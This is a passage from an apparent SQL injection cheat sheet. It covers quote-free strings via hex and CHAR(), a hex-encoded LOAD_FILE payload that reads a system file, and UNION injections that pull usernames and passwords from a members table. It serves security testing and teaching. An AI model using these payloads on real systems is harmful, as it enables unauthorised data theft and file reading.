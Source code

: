 ### Strings without Quotes

These are some direct ways to using strings but it’s always possible to use  `CHAR()`(MS) and  `CONCAT()`(M) to generate string without quotes.

-   `0x457578`  (M) -  Hex Representation of string  
    `SELECT 0x457578`  
    This will be selected as string in MySQL.  
      
    In MySQL easy way to generate hex representations of strings use this;  
    `SELECT CONCAT('0x',HEX('c:\\boot.ini'))`  
      
    
-   Using  `CONCAT()`  in MySQL  
    `SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77))`  (M)  
    This will return ‘KLM’.  
      
    
-   `SELECT CHAR(75)+CHAR(76)+CHAR(77)`  (S)  
    This will return ‘KLM’.

#### Hex based SQL Injection Samples

-   `SELECT LOAD_FILE(0x633A5C626F6F742E696E69)`  (M)  
    This will show the content of  **c:\boot.ini**

### String Modification & Related

-   `ASCII()`  (SMP)  
    Returns ASCII character value of leftmost character. A must have function for Blind SQL Injections.  
      
    `SELECT ASCII('a')`  
      
    
-   `CHAR()`  (SM)  
    Convert an integer of ASCII.  
      
    `SELECT CHAR(64)`

## Union Injections

With union you do SQL queries cross-table. Basically you can poison query to return records from another table.

`SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members`  
This will combine results from both news table and members table and return all of them.

Another Example :  
`' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

### UNION – Fixing Language Issues

While exploiting Union injections sometimes you get errors because of different language settings (_table settings, field settings, combined table / db settings etc._) these functions are quite useful to fix this problem. It's rare but if you dealing with  _Japanese, Russian, Turkish_  etc. applications then you will see it.
